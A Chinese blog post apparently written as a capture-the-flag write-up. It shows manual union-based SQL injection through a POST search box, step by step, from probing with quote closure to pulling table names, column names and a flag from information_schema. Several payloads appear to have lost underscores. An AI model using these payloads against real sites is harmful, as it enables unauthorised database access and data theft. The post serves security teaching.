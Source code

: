```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为--- php  http://www.xxx.com?test=123 ---，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

>

>**一个简单的输入搜索框**

>

## 考察点：
>**sql注入中的post注入。**

>一般有两种方式：

>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

>第二种方式，通过手工注入，构造payload，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入search=' ，发现页面出错，可知存在注入的可能。继续输入search=' and 1=1，发现依然报错，search=' and 1=1# 发现变回正常页面。证明存在注入点，可用'  #进行闭合。
>如何理解所构造的payload？
>
>OK,简单的解释一下SQL语句.我们搜索的内容是--- ' and 1=1 # ---,代入到数据库的语句是:--- select * from XXX where search = ' ' and 1=1 #' ---，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:--- select * from XXX where content = ' ' and 1=1 ---,这个语句理解就很简单了。

> 3.用order by 查询当前页面连接的列名个数：--- search=' order by 1# ---页面返回正常 ，直到4，页面开始出错，说明有3个。

> 4.使用union 联合查询 显错点，输出点，语句：--- search='  union select 1,2,3#  ---，页面爆出显位2，3。

> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造--- search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# ---,得到数据库名为news。

> 6.接着获取表名，构造--- search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # ---，得到表名为f1agfl4gher3。

> 注意：这里需要把数据库名称“news”做了一个16进制Hex编码，编码之后为---0x6E657773 ---。

>7.同理获取列名：--- search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# --- ，得到列名为h3r31sfl4g。

> 8.最后获取数据，--- search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # ---，得到flag！

> --- flag{sql_ information_ schema_ hack} ---



>

>

>[参考链接（一）：](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)
>[参考链接（二）：](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！

